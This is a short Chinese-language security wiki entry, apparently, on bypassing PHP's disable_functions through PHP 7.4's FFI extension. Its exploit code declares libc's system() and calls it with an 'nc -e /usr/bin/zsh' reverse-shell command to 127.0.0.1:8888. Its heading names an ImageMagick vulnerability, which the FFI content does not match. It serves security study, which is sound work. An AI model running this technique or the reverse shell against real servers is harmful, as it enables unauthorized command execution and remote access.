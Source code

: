 ## 利用 ImageMagick 漏洞绕过（二）

**1.利用条件**

php 7.4

ffi.enable=true

**2.基本原理**

FFI（Foreign Function Interface），即外部函数接口，允许从用户区调用C代码。
当PHP所有的命令执行函数被禁用后，通过PHP 7.4的新特性FFI可以实现用PHP代码调用C代码的方式，先声明C中的命令执行函数，然后再通过FFI变量调用该C函数即可Bypass disable_functions。

![](images/security_wiki/15904998297441.png)


**3.exp**

```php
<?php
// create FFI object, loading libc and exporting function printf()
$ffi = FFI::cdef(
   "int system(char *command);", // this is a regular C declaration
   "libc.so.6");
// call C's printf()
$a='nc -e /usr/bin/zsh 127.0.0.1 8888';
$ffi->system($a);
?>

```

